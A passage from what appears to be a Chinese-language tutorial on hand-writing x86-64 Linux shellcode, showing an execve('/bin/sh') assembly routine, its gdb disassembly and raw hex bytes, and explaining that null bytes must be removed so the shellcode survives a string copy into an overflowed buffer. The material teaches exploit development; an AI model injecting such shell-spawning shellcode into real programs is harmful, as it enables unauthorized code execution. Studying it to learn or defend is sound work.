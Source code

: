 ```assembly

14. mycall: call func

15. .string \"/bin/sh\"
```

![image-20231121164636438](C:\Users\yangyushi\AppData\Roaming\Typora\typora-user-images\image-20231121164636438.png)

![image-20231121164651165](C:\Users\yangyushi\AppData\Roaming\Typora\typora-user-images\image-20231121164651165.png)

```
$ gdb gdb shellcode_test
....
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x00000000000005fa <+0>:    push   %rbp
   0x00000000000005fb <+1>:    mov    %rsp,%rbp
   0x00000000000005fe <+4>:    jmp    0x639 <main+63>
   0x0000000000000600 <+6>:    pop    %rbx
   0x0000000000000601 <+7>:    mov    %rbx,0x8(%rsp)
   0x0000000000000606 <+12>:    movb   $0x0,0x7(%rsp)
   0x000000000000060b <+17>:    movl   $0x0,0x10(%rsp)
   0x0000000000000613 <+25>:    mov    $0x3b,%rax
   0x000000000000061a <+32>:    mov    %rbx,%rdi
   0x000000000000061d <+35>:    lea    0x8(%rsp),%rsi
   0x0000000000000622 <+40>:    lea    0x10(%rsp),%rdx
   0x0000000000000627 <+45>:    syscall 
   0x0000000000000629 <+47>:    mov    $0x3c,%rax
   0x0000000000000630 <+54>:    mov    $0x0,%rdi
   0x0000000000000637 <+61>:    syscall 
   0x0000000000000639 <+63>:    callq  0x600 <main+6>
   0x000000000000063e <+68>:    (bad)  
   0x000000000000063f <+69>:    (bad)  
   0x0000000000000640 <+70>:    imul   $0x90006873,0x2f(%rsi),%ebp
   0x0000000000000647 <+77>:    pop    %rbp
   0x0000000000000648 <+78>:    retq   
End of assembler dump.
gdb-peda$ x /64xb main+4
0x5fe <main+4>:    0xeb    0x39    0x5b    0x48    0x89    0x5c    0x24    0x08
0x606 <main+12>:    0xc6    0x44    0x24    0x07    0x00    0xc7    0x44    0x24
0x60e <main+20>:    0x10    0x00    0x00    0x00    0x00    0x48    0xc7    0xc0
0x616 <main+28>:    0x3b    0x00    0x00    0x00    0x48    0x89    0xdf    0x48
0x61e <main+36>:    0x8d    0x74    0x24    0x08    0x48    0x8d    0x54    0x24
0x626 <main+44>:    0x10    0x0f    0x05    0x48    0xc7    0xc0    0x3c    0x00
0x62e <main+52>:    0x00    0x00    0x48    0xc7    0xc7    0x00    0x00    0x00
0x636 <main+60>:    0x00    0x0f    0x05    0xe8    0xc2    0xff    0xff    0xff
```

好了，现在我们已经有了shellcode的二进制了，但是还有一个问题。可以看到，我们的程序中有0x00这种数据，由于我们的shellcode作为字符串传递到缓冲区中的，这代表的恰恰也是字符串的结束，也就是说，当我们的字符串往缓冲区拷贝的时候，当遇到0x00时，无论我们的shellcode有没有拷贝完，都会停止拷贝。我们可不想我们费尽千辛万苦写出的shellcode竟然只被拷贝的残缺不全。下面，我们改进一下我们的程序。
